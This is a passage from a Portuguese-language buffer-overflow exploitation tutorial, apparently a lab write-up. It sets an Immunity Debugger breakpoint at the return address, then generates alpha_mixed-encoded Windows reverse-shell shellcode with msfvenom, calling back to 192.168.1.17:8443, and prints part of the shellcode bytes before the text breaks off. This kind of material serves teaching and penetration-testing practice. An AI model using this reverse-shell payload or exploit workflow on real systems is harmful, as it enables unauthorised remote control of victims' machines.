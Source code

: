 Vamos inserir um breakpoint em nosso endereço de retorno e monitorar com Immunity.

![Enumaração do comando.](/img/std/winbof/winbof-88.png)

Caímos exatamente em cima do nosso buffer de “C”.

Podemos criar nosso shellcode, porém, temos uma limitação de caracteres muito grande.

Por sorte, a suite Metasploit trabalha com vários tipos de encoders, um deles é o x86/alpha_mixed que faz a transcrição do nosso shellcode para bytes alfa numéricos, mais sobre o encode [aqui](https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/).

Vamos gerar nosso shellcode:

```bash
$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.17 lport=8443 exitfunc=thread -e x86/alpha_mixed -b '\x00' bufferregister=esp -f py -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 702 (iteration=0)
x86/alpha_mixed chosen with final size 702
Payload size: 702 bytes
Final size of py file: 3913 bytes
shellcode =  b""
shellcode += b"\x54\x59\x49\x49\x49\x49\x49\x49\x49\x49\x49"
shellcode += b"\x49\x49\x49\x49\x49\x49\x49\x37\x51\x5a\x6a"
shellcode += b"\x41\x58\x50\x30\x41\x30\x41\x6b\x41\x41\x51"
shellcode += b"\x32\x41\x42\x32\x42\x42\x30\x42\x42\x41\x42"
shellcode += b"\x58\x50\x38\x41\x42\x75\x4a\x49\x69\x6c\x68"
shellcode += b"\x68\x6f\x72\x73\x30\x47\x70\x53\x30\x53\x50"
shellcode += b"\x6b\x39\x5a\x45\x64\x71\x4b\x70\x30\x64\x6e"
shellcode += b"\x6b\x52\x70\x76\x50\x4e\x6b\x31\x42\x54\x4c"
shellcode += b"\x6c\x4b\x53\x62\x35\x44\x4c\x4b\x42\x52\x57"
shellcode += b"\x58\x64\x4f\x4e\x57\x72\x6a\x34\x66\x30\x31"
shellcode += b"\x39\x6f\x4c\x6c\x55\x6c\x53\x51\x61\x6c\x66"
shellcode += b"\x62\x66\x4c\x51\x30\x79\x51\x68\x4f\x34\x4d"
shellcode += b"\x43\x31\x48\x47\x39\x72\x68\x72\x32\x72\x76"
shellcode += b"\x37\x4c\x4b\x62\x72\x32\x30\x6e\x6b\x31\x5a"
shellcode += b"\x55\x6c\x6e\x6b\x72\x6c\x64\x51\x42\x58\x49"
shellcode += b"\x73\x37\x38\x66\x61\x78\x51\x36\x31\x6e\x6b"
shellcode += b"\x63\x69\x77\x50\x36\x61\x79\x43\x4c\x4b\x62"
shellcode += b"\x69\x72\x38\x68\x63\x55\x6a\x51\x59\x4e\x6b"
shellcode += b"\x64\x74\x4e\x6b\x67\x71\x78\x56\x70\x31\x79"
shellcode += b"\x6f\x4c\x6c\x6a\x61\x4a\x6f\x74\x4d\x66\x61"
shellcode += b"\x7a\x67\x76\x58\x39\x70\x44\x35\x6c\x36\x34"
shellcode += b"\x43\x31\x6d\x39\x68\x47\x4b\x43\x4d\x76\x44"
shellcode += b"\x51\x65\x68\x64\x30\x58\x4c\x4b\x66\x38\x36"
shellcode += b"\x44\x77\x71\x79\x43\x75\x36\x6c\x4b\x54\x4c"
```